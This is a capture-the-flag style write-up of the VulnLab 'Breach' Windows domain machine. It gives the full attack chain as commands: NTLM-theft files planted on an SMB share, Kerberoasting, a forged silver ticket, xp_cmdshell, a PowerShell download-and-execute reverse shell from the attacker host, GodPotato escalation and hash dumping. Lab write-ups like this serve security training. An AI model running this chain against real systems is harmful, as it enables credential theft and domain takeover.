


# Breach

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Breach** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.



Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 3268,51742,51725,80,464,9389,3269,636,1433,135,593,5985,139,49667 --min-rate=1000 10.10.117.12
```



Now let’s go and enumerate the shares

```bash
nxc smb breach.vl -u 'guest' -p '' --shares
```


> Notice that we got access to two shares
> 

let’s connect to the users share

```bash
smbclient \\\\breach.vl\\Users -U "breach.vl\guest"
```


we didn’t find anything interesting so let’s go and get the domain users

```bash
nxc smb breach.vl -u 'guest' -p '' --rid-brute 10000
```


now save the results and let’s extract the users

```bash
cat results.txt | grep -i SidTypeUser | awk '{print $6}' | cut -d "\\" -f 2 > users.txt
```


Notice that we have a writable share so let’s go create a malisons file to help us steal the ntlm hashes of any user enter the share

```bash
python3 ntlm_theft.py --generate all --server 10.8.5.233 --filename remo
```


Now let’s open responder to catch the ntlm hashes

```bash
sudo responder -I tun0
```


now let’s upload the generated files

```bash
smbclient \\\\breach.vl\\share -U "breach.vl\guest"
```


now let’s put the generated files

```bash
prompt off
mput *
```


Now let’s go back to responder and see if we got any hashes


and we got the hash of Julia.Wong so let’s crack it

```bash
john crackme.txt --wordlist=/usr/share/wordlists/rockyou.txt
```


> As we see we got the password of Julia
> 
> 
> username: Julia.Wong
> password: Computer1
> 

Now let’s see if it’s working

```bash
nxc smb breach.vl -u 'Julia.Wong' -p 'Computer1'
```


And it’s working!

Now let’s get bloodhound

```bash
bloodhound-python -ns 10.10.117.12 -d breach.vl -u Julia.Wong -p Computer1 -c all --zip
```


Now let’s open the bloodhound and see if we have interesting permissions


> Notice that our user is member of Print Operators
> 

Now let’s see the kerbeorstable users 

```bash
impacket-GetUserSPNs breach.vl/'Julia.Wong':'Computer1' -target-domain breach.vl -dc-ip 10.10.117.12 -request -outputfile crackme.txt
```


Now let’s try to crack it’s passowrd

```bash
john crackme.txt --wordlist=/usr/share/wordlists/rockyou.txt
```


> And we go the password of the svc_sql
username: svc_mssql
password: Trustno1
> 

Now let’s try to login to the MSSQL service

```bash
nxc mssql breach.vl -u svc_mssql -p 'Trustno1'
```


Now let’s get a silver ticket to forge administrator for MSSQLservice

```bash
impacket-ticketer -domain breach.cl -dc-ip 10.10.117.12 -domain-sid S-1-5-21-2330692793-3312915120-706255856 -spn MSSQLSvc/breachdc.breach.vl:1433 administrator -nthash 69596C7AA1E8DAEE17F8E78870E25A5C
```


Now let’s export the ticket

```bash
export KRB5CCNAME=administrator.ccache
```


Now let’s connect to MSSQL Service

```bash
impacket-mssqlclient -k breachdc.breach.vl
```


now let’s enable the xp_cmdshell function

```bash
EXEC sp_configure 'show advanced options', 1
RECONFIGURE
EXEC sp_configure 'xp_cmdshell', 1
RECONFIGURE
```


Now let’s try to execute commands

```bash
exec master..xp_cmdshell 'whoami'
```


And we got code execution so let’s go and  get a reverse shell

Now let’s open a listener

```bash
nc -lvnp 1337
```


now let’s go and execute a reverse shell

```bash
exec master..xp_cmdshell "powershell -c IEX (New-Object Net.WebClient).DownloadString('http://10.8.5.233/rev.ps1')"
```


and we go a shell!

Now let’s see our privileges 

```bash
whoami /all
```


> Notice that we have the Impersonation privileges
> 

So let’s download and execute the God Potato to get system access

```bash
 .\gp.exe -cmd "cmd /c whoami"
```


Now let’s add Julia.Wong as a local administrator

```bash
.\gp.exe -cmd "cmd /c net localgroup administrators Julia.Wong /add"
```


Now let’s dump the hashes using secrets dump

```bash
impacket-secretsdump breach.vl/Julia.Wong:'Computer1'@10.10.117.12
```


Now let’s login as administrator

```bash
evil-winrm -i breach.vl -u administrator -H 'd9a47efd620c2f6d349dd035274d2117'
```


now let’s go to the administrator folder and get the flag

```bash
cd c:\users\administrator\desktop
```


Amazing we got the root flag 🥳


That’s it for the **Breach** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTP | CRTO | eWPTX | eCPPT | eMAPT